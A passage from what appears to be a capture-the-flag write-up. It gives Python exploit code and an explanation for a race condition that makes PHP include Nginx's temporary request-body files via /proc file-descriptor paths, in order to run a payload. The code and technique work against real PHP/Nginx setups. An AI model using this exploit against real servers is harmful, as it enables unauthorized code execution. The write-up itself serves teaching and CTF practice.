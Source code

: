 ```python
def read_file(requests_session, nginx_pid, fd, nginx_pids):
    nginx_pid_list = list(nginx_pids)
    while True:
        path = generate_random_path_prefix(nginx_pid_list)
        path += f"/proc/{nginx_pid}/fd/{fd}"
        try:
            d = requests_session.get(SERVER + f"/?action=include&file={path}").text
        except:
            continue
        # Flags are formatted as hxp{<flag>}
        if "hxp" in d:
            print("Found flag! ")
            print(d)

def read_file_worker(requests_session, nginx_pid, nginx_pids):
    # Scan Nginx FDs between 10 - 45 in a loop. Since files and sockets keep closing - it's very common for the request body FD to open within this range
    for fd in range(10, 45):
        thread = threading.Thread(target = read_file, args = (requests_session, nginx_pid, fd, nginx_pids))
        thread.start()

def read_file_multiprocess(requests_session, nginx_pids):
    for nginx_pid in nginx_pids:
        p = multiprocessing.Process(target=read_file_worker, args=(requests_session, nginx_pid, nginx_pids))
        p.start()

if __name__ == "__main__":
    print('[DEBUG] Creating requests session')
    requests_session = create_requests_session()
    print('[DEBUG] Getting Nginx pids')
    nginx_pids = get_nginx_pids(requests_session)
    print(f'[DEBUG] Nginx pids: {nginx_pids}')
    print('[DEBUG] Starting payload sending')
    send_payload_multiprocess(requests_session)
    print('[DEBUG] Starting fd readers')
    read_file_multiprocess(requests_session, nginx_pids)
```

Our exploit tries to get PHP to `include_once()` Nginx’s request body temporary file before it’s deleted. In order to do that, we need to constantly create many HTTP requests with our payload as a (large) request body, as fast as possible.

We use a `requests.Session` object with a large pool configured in order to speed up our HTTP requests and reduce the TCP handshake overhead.

Afterwards, we loop over the processes to see which ones are Nginx workers, since we’ll need their PIDs to build the FD path leading to the request body files.

After creating the session and retrieving the Nginx worker PIDs (if cache wasn’t used) - we run the main exploit logic in parallel by leveraging Python’s `multiprocessing` (threads might won’t be enough in this case due to GIL):
